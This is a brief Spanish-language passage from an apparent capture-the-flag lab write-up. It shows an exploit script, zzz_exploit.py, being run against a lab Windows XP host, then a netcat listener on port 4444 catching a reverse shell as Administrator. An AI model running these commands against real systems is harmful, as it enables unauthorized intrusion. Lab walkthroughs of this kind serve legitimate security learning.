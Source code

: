 ```
```

`Ejecutamos` el `exploit`

```
# python2 zzz_exploit.py 10.129.227.181 browser
```

`Recibimos` la `consola` como usuario `Administrator`

```
# nc -nlvp 4444      
listening on [any] 4444 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.227.181] 1041
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

